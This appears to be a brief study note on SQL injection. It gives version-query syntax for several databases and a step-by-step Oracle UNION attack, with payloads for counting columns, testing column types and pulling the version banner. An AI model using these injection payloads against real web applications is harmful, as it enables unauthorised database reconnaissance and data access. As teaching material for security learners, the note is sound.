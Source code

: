 ## Querying the database type and version

+ Microsoft, MySQL
`select @@version`

+ Oracle
` select * from v$version`

+ PostgreSQL
` select version()`

You can use a **UNION** attack with above queries.  

# For Oracle Database:  
1. Determine the number of columns  
`' order by 1 --`  
-> 200 OK: we have one or more columns  
`' order by 2 --`  
-> 200 OK: we have two or moer columns  
`' order by 3 --`  
-> 500 error: we have less than 3 columns

2. Determine the data types of columns  
` ' union select 'a', 'a' from DUAL--`  
-> 200 OK: the two columns are both string type.  
-- In Oracle database, select statement must have a 'from' clause.  
-- DUAL is a dummy table.    

3. Output the version of the database  
 ` ' union select banner, NULL from v$version --`  
 -> 200 OK: and you will find the version info in the context.  
 -- NULL is a placeholder as this database as two columns.  
